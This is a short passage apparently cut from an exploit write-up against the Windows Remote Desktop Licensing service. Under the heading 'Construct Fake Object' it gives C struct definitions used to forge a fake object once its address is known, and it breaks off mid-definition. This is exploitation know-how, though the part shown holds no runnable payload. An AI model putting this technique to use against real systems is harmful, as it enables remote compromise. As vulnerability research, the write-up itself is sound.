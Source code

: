 ![](../img/无标题-2024-10-12-1007%202.png)
### 3.3.3 Construct Fake Object

Now we have fakeobj address. Just forge the object with its defination

```c
//lpContext->m_ContextHandle
typedef struct __ENUMHANDLE {
    typedef enum {
        FETCH_NEXT_KEYPACK=1,
        FETCH_NEXT_KEYPACKDESC,
        FETCH_NEW_KEYPACKDESC
    } ENUM_FETCH_CODE;

    PTLSDbWorkSpace pbWorkSpace;
    TLSLICENSEPACK  CurrentKeyPack;

    LICPACKDESC     KPDescSearchValue;
    DWORD           dwKPDescSearchParm;
    BOOL            bKPDescMatchAll;
    CHAR            chFetchState;
} ENUMHANDLE, *LPENUMHANDLE;


//lpContext->m_ContextHandle->pbWorkSpace
typedef struct __TlsDbWorkSpace {

    static JBInstance g_JbInstance;
```
